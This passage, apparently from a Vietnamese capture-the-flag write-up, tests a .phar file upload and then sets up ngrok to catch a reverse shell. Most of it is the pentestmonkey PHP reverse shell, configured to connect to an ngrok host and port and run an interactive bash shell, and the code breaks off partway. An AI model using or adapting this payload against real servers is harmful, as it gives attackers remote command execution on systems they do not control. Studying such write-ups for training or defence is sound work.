 Test trước với file `.phar` có code `<?php echo "testttt"; ?>` 

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/12a7e412-2d02-40d5-b7fd-4a337f4c45f7/Untitled.png)

Thành cônggg~. Mục tiêu bây giờ là public một port máy local của mình để lắng nghe kết nối reverse shell về máy. Mình sẽ sử dụng ngrok để public port 4567 ra ngoài.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/4a072d79-5445-4755-b36b-1260db869c96/Untitled.png)

Khi đó ta cần payload php kết nối về domain [0.tcp.ap.ngrok.io](http://0.tcp.ap.ngrok.io) ở port 11177. Sử dụng payload sau có nguồn từ [php-reverse-shell/php-reverse-shell.php at master · pentestmonkey/php-reverse-shell (github.com)](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Ta chỉnh IP và Port tương ứng. Đồng thời lưu thành file .phar để upload.

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '0.tcp.ap.ngrok.io';
$port = 11177;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
```